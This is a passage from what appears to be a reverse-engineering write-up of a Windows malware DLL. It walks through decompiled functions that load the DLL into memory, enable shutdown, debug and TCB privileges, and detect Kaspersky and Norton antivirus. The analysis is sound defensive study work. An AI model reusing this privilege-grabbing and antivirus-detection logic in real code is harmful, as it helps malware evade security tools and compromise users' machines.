 As a side note we see that the function simply returns when the file read fails.

If the file read succeeds then we see that we first invoke [GetFileSize](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfilesize) to get the length in bytes of the file. Assuming that this is not 0 we continue.

Next we get the heap of the process by calling [GetProcessHeap](https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-getprocessheap). After this we perform a [heap allocation](https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc). To do this we use the process heap handle just obtained, do not use any flags and allocate enough space to store the entire Malware DLL in it. Assuming this worked a point to the allocated space is returned. 

After guarding against a `NULL` pointer a [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) call is issued which simply read the entire Malware DLL into the just allocated heap space, the number of bytes actually read is stored in `local_8`.

Next there are two branches. If the read failed or did not read the expected number of bytes (the entire DLL) then the allocated space is freed an the function returns. If the the read succeeded then the return value `local_10` is set to `1`, the allocated buffer pointed copied to a global and the number of bytes of this buffer also stored in a global. So next we will rename these globals.

We can now conclude that this function simply copies the malware to memory, meaning we can also rename the function to `copy_malware_dll_to_memory`. The return type is still undefined however seems to be some kind of boolean. Probably it being undefined won't cause any issues afterall.

### Back to FUN_10007cc0 (setup)

We have now investigated all the functions called by this function giving us a clear view of what this function is doing:

```cpp
void setup_privileges_antivirus_malware_copy(void){
  BOOL BVar1;
  DWORD DVar2;
  uint uVar3;
  
                    /* Performs general setup:
                       - sets system startup time
                       - grants privileges
                       - detects anti virus
                       - copies malware to memory */
  if (_DAT_1001f114 == 0) {
    millis_since_system_start = GetTickCount();
    BVar1 = grant_privilege(L"SeShutdownPrivilege");
    uVar3 = (uint)(BVar1 != 0);
    BVar1 = grant_privilege(L"SeDebugPrivilege");
    if (BVar1 != 0) {
      uVar3 = uVar3 | 2;
    }
    BVar1 = grant_privilege(L"SeTcbPrivilege");
    if (BVar1 != 0) {
      uVar3 = uVar3 | 4;
    }
    granted_privileges = uVar3;
                    /* All 1's, bit 4 is 0 for Kaspersky and bit 3 is 0 for Norton/Symantec */
    _detected_anti_virus = detect_anti_virus();
                    /* Fully qualified path for the Malware DLL */
    DVar2 = GetModuleFileNameW(DLL_handle,&dll_fully_qualified_path,0x30c);
    if (DVar2 != 0) {
      copy_malware_dll_to_memory();
      return;
    }
  }
  return;
}
```
